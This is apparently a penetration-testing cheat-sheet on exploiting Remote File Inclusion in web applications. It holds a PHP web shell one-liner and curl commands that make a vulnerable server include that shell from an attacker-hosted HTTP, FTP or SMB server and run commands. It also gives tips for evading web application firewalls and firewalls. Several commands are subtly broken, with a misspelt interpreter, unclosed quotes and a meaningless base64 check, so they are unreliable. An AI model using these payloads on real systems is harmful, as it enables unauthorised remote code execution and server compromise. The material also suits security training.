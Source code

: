 # Remote File Inclusion (RFI)
***
#### When we are able to include remote files we may enumerate local-only ports and web applications and even include scripts hosted on our machines to execute remote code.

### Functions that may allow RFI:
| Language | Function                 | Read Content | Execute | Remote URL |
|----------|---------------------------|--------------|---------|------------|
| **PHP**  | `include()` / `include_once()` | ✅         | ✅      | ✅         |
|          | `file_get_contents()`     | ✅           | ❌       | ✅         |
| **Java** | `import`                  | ✅           | ✅      | ✅         |
| **.NET** | `@Html.RemotePartial()`    | ✅           | ❌       | ✅         |
|          | `include`                 | ✅           | ✅      | ✅         |

### Checking RFI
#### In PHP, it is only possible to include remote URLs when the `allow_url_include` option is enabled.
```
echo 'MTMzNwo=' | base64 -d | grep allow_url_include
```
#### Even when the setting is enabled we may not able to execute RFI. One of the most common ways to test if it is vulnerable to RFI after spotting LFI is to simply input a remote URL to a website and see if we can get its content.
#### We should allways include a local file URL, so it does not get blocked by a firewall or other protections.
#### Example:
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=http://127.0.0.1:80/index.php
```
#### When the included page from the inputted URL does get rendered as PHP, we may perform RCE if we include a PHP script on our machine.

#### **NOTE:** By including the vulnerable page , we may cause a recursive inclusion loop and cause a DoS to the server.

### Remote Code Execution
#### Firstly we craft our malicious script, for instance a simple web shell:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
#### Then we could simply host our script and include it on the vulnerable URL. For better results we should use common HTTP port `80` or `443`to avoid being whitelisted by the web application firewall. Additionally , we may host the script through an FTP or an SMB service.


### HTTP
#### Example of a simple server using python
```bash
$ sudo pyhton3 -m http.server <PORT>
```
#### Then we can include our local shell through RFI
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=http://<Attacker_IP>:<Attacker_PORT/shell.php&cmd=id
```

### FTP
#### Basic FTP server using Python's `pyftpdlib` :
```bash
$ sudo python -m pyftpdlib -p 21
```
#### This may be useful when a WAF is in place blocking the `http://` string or even when a firewall is filtering out http ports.
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=ftp://user:pass@localhost/shell.php&cmd=id
```

### SMB
#### When we are facing a web application which is running on a Windows server, then we don't need the `allow_url_include` option to be enabled for the exploitation of RFI , as we can use the SMB protocol for it.
#### SMD server using `Impacket's smbserver.py`:
```bash
$ impacket-smbserver -smb2support share $(pwd)
```
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=\\<IP>\share\shell.php&cmd=id
```